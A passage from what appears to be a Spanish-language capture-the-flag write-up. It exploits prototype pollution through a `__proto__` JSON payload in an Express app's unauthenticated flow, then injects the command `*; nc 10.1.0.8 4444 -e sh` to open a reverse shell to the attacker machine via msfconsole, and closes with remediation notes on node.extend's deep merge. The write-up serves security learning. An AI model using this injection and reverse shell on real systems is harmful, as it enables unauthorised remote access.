 Hacemos la modificación de Content-Type a application/json, enviamos el payload con la propiedad `__proto__`
![[fig16.png]]
No tenemos éxito al intentar esto, entonces podemos probar otro flujo de la aplicación, por ejemplo cuando un usuario que no está con su sesión iniciada e intenta hacer un request al endpoint. Para esto borramos la cookie e intentamos nuevamente:
![[fig17.png]]
Recargamos el sitio `/admin` e insertamos un valor cualquiera, enviándolo a `/admin/check_proccess`. Ahora el alert resultante tiene el mensaje Existe el proceso.
![[fig18.png]]
En el flujo autenticado parece que no hay problema con respecto al manejo del body JSON, sin embargo, al enviar la petición sin autenticación, este es vulnerable modificando los Object. 

Si bien está mal diseñada la autenticación por almacenar en memoria por única vez las cookies y demás valores (quitando toda entropía de la generación aleatoria), también el objeto que contiene las credenciales fue contaminado al evaluar el body que enviamos. Una solución rápida sobre el código podría ser limpiar (sanitize) la entrada o hacer un [freeze](https://security.snyk.io/vuln/SNYK-JS-TOUGHCOOKIE-5672873) sobre el objeto de credenciales al generarlo (como mínimo).
### Estableciendo shell reversa
Ahora que ya podemos ejecutar este flujo podemos intentar iniciar una shell reversa. En una terminal de la máquina (A):
1. msfconsole
2. buscamos un reverse shell que podamos utilizar, como por ejemplo netcat
3. definimos LHOST y LPORT de (A)

![[fig19.png]]
Ahora ingresamos el valor en el input para que /admin/check_process pueda ejecutarse y (V) se conecte a la máquina atacante (A)

Entonces el valor insertado para conectarnos a la shell reversa `*; nc 10.1.0.8 4444 -e sh`

![[fig20.png]]
Observamos en msfconsole que tenemos la conexión establecida
![[fig21.png]]
Ingresamos mediante el uso de la sesión y probamos usar `whoami` para ver el usuario
![[fig22.png]]
## Análisis de vulnerabilidades del flujo mediante el código
Por curiosidad, observamos el código del servicio express y encontramos el endpoint:
![[fig23.png]]
La función securityLog que es utilizada cuando un usuario no está con su sesión iniciada (isLogedin) utiliza la función extend de node que al hacer un deep merge(biblioteca [node.extend](https://github.com/dreamerslab/node.extend?tab=readme-ov-file)) de nuestro payload malicioso sobre el objeto a imprimir mediante console.log modificando los Object y así permitiendo definir isAdmin.
![[fig24.png]]
También aportamos un punto más preciso sobre la [función](https://github.com/dreamerslab/node.extend/blob/efbe6b9b705acca9288df85dbc8345c94a7ba60a/lib/extend.js#L47) y el parámetro de deep merge en la documentación de [jQuery](https://api.jquery.com/jQuery.extend/) donde también recomienda el uso sanitizado de los objetos.
## Obteniendo el primer archivo: “user.txt”
Podemos observar que es un sistema operativo Alpine, comúnmente usado en contenedores por su reducido tamaño.
<figure>  
<img src="fig25.png" alt="Comando NMAP">  
<figcaption>Fig. 9</figcaption>  
</figure>